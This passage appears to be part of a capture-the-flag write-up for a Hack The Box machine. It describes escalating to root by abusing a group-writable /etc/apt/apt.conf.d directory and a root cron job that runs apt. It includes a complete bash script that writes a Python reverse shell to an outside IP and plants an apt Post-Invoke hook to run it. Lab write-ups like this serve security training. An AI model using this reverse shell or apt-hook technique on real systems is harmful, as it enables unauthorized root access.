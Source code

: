 We continued with simply dumping the private ssh key inside of `~/.ssh/id_rsa` and connect back to john with `ssh -i john.key john@writer.htb` where john.key is the private key we just got.
Running [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) again we get some interesting output:

```
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                                                                             
  Group john:                                                                                                                                                                                                                  
  Group management:
/etc/apt/apt.conf.d 
```
So because john is a member of the management group we can write inside of /etc/apt/apt.conf.d which is a huge security risk as these configuration files get called everytime apt is running. 
We learned earlier (and [pspy](https://github.com/DominicBreuker/pspy) also confirmed this) that there is another cronjob running `apt get update` as root every two minutes.

So with a little google research and help from this [nice blog entry](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/) we came up with this script to give us a root reverse shell:
```bash
./spam_aptconf.sh                                                                                                                           
#!/bin/bash
while true
do
echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.61",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > /tmp/rev.py
echo 'apt::Update::Post-Invoke {"python3 /tmp/rev.py"}' > /etc/apt/apt.conf.d/pwn
chmod --reference=/etc/apt/apt.conf.d/01autoremove /etc/apt/apt.conf.d/pwn
now=$(date +"%T")
echo $now
done
```
Basically what this script does is creating a python reverse shell file in /tmp/rev.py and a pwn file in /etc/apt/apt.conf.d which calls said rev.py. It also changes the permissions to match the other configuration files which is propably not neccessary.
It also echos the time to make sure it didn't crash on us. The while loop was obligatory as /etc/apt/apt.conf.d gets cleaned by another cronjob from time to time so we just spam our files.
We now just wait for a maximum of two minutes to catch our root reverse shell with a listener.
